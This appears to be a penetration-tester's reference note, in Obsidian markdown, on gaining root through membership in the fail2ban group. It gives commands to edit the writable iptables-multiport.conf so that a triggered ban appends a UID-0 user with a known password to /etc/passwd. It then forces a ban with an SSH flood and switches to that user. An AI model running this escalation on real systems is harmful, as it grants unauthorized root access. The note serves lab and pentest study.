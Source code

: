 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Running `id` shows we are part of fail2ban group

![[Pasted image 20221110103107.png]]

Find the iptables-multiport.conf file:
```bash - target
find / -type f -iname iptables-multiport.conf 2> /dev/null
```

Verify that we have read / write privs:
```bash - kali
ls -lah /etc/fail2ban/action.d/iptables-multiport.conf
```

```bash - target
nano /etc/fail2ban/action.d/iptables-multiport.conf
```

[[17._passwd file]]

```bash - target
actionban = echo "newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash" >> /etc/passwd
```

![[Pasted image 20220403120429.png]]

Now force the bad by flooding ssh requests:
![[TechLexicon/Penetration Testing/Reference/7._Tools/Hydra#Hydra against SSH]]

```bash - target
su newroot
```

```bash - target
password
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
